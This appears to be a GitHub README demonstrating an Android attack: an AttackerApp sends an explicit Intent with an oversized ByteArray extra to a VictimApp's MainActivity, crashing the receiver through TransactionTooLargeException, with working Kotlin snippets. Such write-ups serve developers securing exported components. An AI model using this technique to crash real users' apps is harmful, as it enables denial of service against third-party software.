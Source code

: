 # Intent TransactionTooLargeException attack

There is a way to crash any running app by sending `Intent` with extras of specific size.

Let's try to crash our **VictimApp**:
1. To communicate with it, we should use `Intent` with a specified package name of the **VictimApp** `MainActivity`:
```kotlin
val intent = Intent().apply {
    setClassName(
        "com.example.victimapp",
        "com.example.victimapp.MainActivity"
    )  
}
context.startActivity(intent)
```
2. Let's put some big object as an `Intent` extra:
We can use a `ByteArray(800 * 800)` for it
```kotlin
val intent = Intent().apply {
    setClassName(
        "com.example.victimapp",
        "com.example.victimapp.MainActivity"
    )
    putExtra("test", Bundle().apply {
        putByteArray("data", ByteArray(800 * 800))
    })
}
context.startActivity(intent)
```
3. When we send this `Intent`, we expect to see the `TransactionTooLargeException` on the sender (AttackerApp) app side, but for some reason, we don't. `TransactionTooLargeException` happens on the receiver (VictimApp) side and crashes it.
   

[intentAttack.webm](https://github.com/user-attachments/assets/af43d48e-e43f-471c-a6b6-c74e7a18917d)

4. When we do the same thing with a bigger `ByteArray(8000 * 8000)`, it crashes the sender app only (as we expect).
